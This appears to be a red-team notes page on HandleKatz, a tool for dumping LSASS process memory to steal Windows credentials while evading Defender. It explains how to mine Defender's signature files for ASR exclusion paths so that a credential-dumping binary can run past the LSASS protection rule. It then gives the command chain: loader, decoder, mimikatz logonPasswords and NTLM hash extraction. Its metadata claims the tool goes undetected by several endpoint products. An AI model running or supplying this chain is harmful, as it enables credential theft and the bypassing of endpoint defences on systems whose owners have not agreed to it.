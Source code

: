 # Handlekatz

So, how do you go about dumping lsass.exe on a box protected with MDE and ASR? Well, fortunately you can leverage a variety of whitelisted paths within the Defender ASR rules that help you achieve this. After finding a whitelisted exclusion path for the ASR rule you want to bypass, simply run your executable from that path!
Windows Defender signatures/rules are stored in VDM containers. Many of them are just Lua script files. It’s possible to use a tool such as WDExtract to decrypt and extract all the PE images from these containers. By analyzing the extracted VDM you can pull whitelisted exclusion paths for ASR rules.
I will now demonstrate a very quick, hacky way to quickly get an updated list of potential exclusion paths for particular ASR rules.
Let’s pick on the ASR rule for “Block credential stealing from the Windows local security authority subsystem”.
Here is a link to the particular ruleset on MSDN. Here you can see that the ASR rule is tied to a particular GUID, in this case 9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2.
This rule can be enabled on your machine with the following PowerShell script: Set-MpPreference -AttackSurfaceReductionRules_Ids 9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2 -AttackSurfaceReductionRules_Actions Enabled
* First, we need to locate the Defender signature files. You can usually find these in the following location: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\Backup
* In our case, we are primarily interested in the mpasbase.vdm file.
* Let’s extract the file using WDExtract: wdextract64.exe mpasbase.vdm
* Open the extracted file mpasbase.vdm.extracted in a Hex Editor, such as HxD.
* Search for the GUID of the ASR rule you want to investigate:
* Scroll down slightly to see the list of exclusions and extract the data:
It’s important to keep in mind that the list of paths you may see here in the hex dump are not always exclusions. They can be part of other paths listed for ASR rules such as Monitored Locations. You’ll need to do some testing/investigating to confirm if you are just naivley using content from the hex dump.
Ultimately, this gives us a list of excluded paths that are allowed to perform lsass.exe dumps even with the ASR rule enabled
https://adamsvoboda.net/extracting-asr-rules/

## [[LSASS dumping]]
*Make all* to build HandleKatzPIC.exe, HandleKatz.bin and loader.exe`
Loader implements a sample loader for HandleKatz:
> loader.exe --pid:7331 --outfile:C:\Temp\dump.obfuscated
> python3 /mnt/c/Users/patri/source/repos/HandleKatz/Decoder.py -i "/mnt/c/Users/patri/Downloads
don/sql2.bin" -o "/mnt/c/Users/patri/Downloads/sql2.dmp"
> .\mimikatz.exe "log C:\Users\patri\Downloads\log.txt" "sekurlsa::minidump C:\Users\patri\Downloads\sql2.bin" "sekurlsa::logonPasswords"
> C:\Users\patri\Documents\Red-Teaming\credentials\KatzKatz-ExtractNTLM\katzkatz.py -f C:\Users\patri\Downloads\Garmaredon\log.txt

```meta
requirements: 
results: 
oss: #win
source: https://github.com/codewhitesec/HandleKatz
description: This tool was implemented as part of our Brucon2021 conference talk and demonstrates the usage of cloned handles to Lsass in order to create an obfuscated memory dump of the same.
undetected:  MDE, BitDefender, Cylance
```
